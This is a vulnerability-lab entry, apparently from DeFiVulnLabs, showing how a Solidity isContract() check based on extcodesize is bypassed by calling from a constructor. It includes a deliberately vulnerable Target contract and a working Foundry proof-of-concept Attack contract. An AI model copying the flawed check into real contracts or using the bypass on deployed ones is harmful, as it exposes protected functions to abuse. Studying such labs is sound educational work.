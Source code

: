 # Bypass isContract() validation  
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**Name:** Bypass isContract() validation

**Description:**  
The attacker only needs to write the code in the constructor of the smart contract
to bypass the detection mechanism of whether it is a smart contract.

**REF:**  

https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  

**Target Contract:**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // This method relies on extcodesize, which returns 0 for contracts in
        // construction, since the code is only stored at the end of the
        // constructor execution.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
****How to Test:****

forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// Function to test if the attack contract can bypass the target contract's check.
function testBypassContractCheck() public {
    // Log the current status of the target contract before the attack. 
    // This typically returns a boolean indicating if the contract has been compromised.
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // Create a new instance of the Attack contract and pass the address of the target contract to it. 
    // This starts the attack against the target contract.
    AttackerContract = new Attack(address(TargetContract));

    // Log the status of the target contract again after the attack.
    // If the attack was successful, the status should be different from the initial status.
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // Log a statement indicating that the exploit process has been completed.
    console.log("Exploit completed");
}


// Attack contract that is created to exploit the target contract.
contract Attack {
    // Public boolean that keeps track if this contract is itself a contract.
    bool public isContract;

    // Public address variable to store the address of this contract.
    address public addr;

    // Constructor of the Attack contract that is triggered once when the contract is created.
    // It takes the address of the target contract as an argument.
    constructor(address _target) {
        // Call the isContract() function of the target contract, passing this contract's address.
        // This is usually a security check in the target contract to see if the caller is a contract.
        // But since this call is made in the constructor, the extcodesize check in isContract() will return false.
        isContract = Target(_target).isContract(address(this));

        // Assign this contract's address to the addr variable.
        addr = address(this);

        // Call the protected() function of the target contract, which is presumably protected against contract calls.
        // But due to the exploit in isContract() check, this call is successful.
        Target(_target).protected();
    }
}
```
**Red box:** 

The attacker only needs to write the code in the constructor of the smart contract to bypass the detection mechanism of whether it is a smart contract.

**Purple box:** issue fixed.  
![Alt text](image-11.png)